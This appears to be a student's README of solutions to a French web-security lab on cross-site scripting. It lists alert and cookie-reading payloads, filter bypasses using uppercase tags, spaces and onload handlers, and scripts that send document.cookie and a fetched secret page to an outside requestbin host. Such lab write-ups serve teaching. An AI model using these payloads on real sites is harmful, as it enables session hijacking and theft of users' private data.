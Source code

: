 [Cédric Niyikiza](https://github.com/CedricNiyiVinci)

## Project setup instructions


# S7 : Vulnérabilité WEB -XSS

## Exercice 1 

### a) Alert Popup 

```javascript
<script>alert("I hacked you")</script>
```

### b) Document Cookies

```javascript
<script>console.log(document.cookie)</script>
```

### c) Mettre les balises en majuscule

```javascript
<SCRIPT>console.log(document.cookie)</SCRIPT>
```
```javascript
<SCRIPT>alert("I hacked you")</SCRIPT>
```
### d) utiliser des buttons avec event, en donnant du JS dans l'attribut onClick

```javascript
<SCRIPT >alert("I hacked you")</SCRIPT > // ajout d'espace dans les balises
```
```javascript
<SCRIPT >alert(document.cookie)</SCRIPT >
```

### e) utiliser des propriétés du type onLoad dans la balise body

```javascript
<body onload="alert(document.cookie)"></body>
```
```javascript
<body onload="alert('I hacked you')"></body>
```
## Exercice 2 

### a) Envoie des cookies à l'aide d'un objet XMLHttpRequest

```javascript
<script>
var http = new XMLHttpRequest(); http.open("POST", "https://requestbin.io/1i1r4xf1", true); http.send(document.cookie);
</script>
```
```javascript
var http = new XMLHttpRequest(); http.open("POST", "https://requestbin.io/1i1r4xf1", true); http.send(document.cookie);

```

### b)  Envoyez une balise script et s'envoyer le code qui s'execute sur la machine de l'admin
```javascript
<script>
var http = new XMLHttpRequest(); http.open("POST", "https://requestbin.io/1i1r4xf1", true); http.send(document.cookie);
</script>
```

### c) Correct Utilisation de XMLHttpRequest + propriété onLoad
```javascript
<script>
var http1 = new XMLHttpRequest();
http1.open("GET", "https://labosecuipl.alwaysdata.net/21/s07/ex2b/profile/", true);

http1.onload = () => { // Cette requet ci c'est lancé apres http1
    var http = new XMLHttpRequest();
    http.open("POST", "https://requestbin.io/1i1r4xf1", true);
    http.send(http1.response)
}
http1.send();
</script>
```
```html
<p>
    Your secret is : 
    <span id="secret">
        BigBrother is watching you !Or is he ?
    </span>
</p>
```


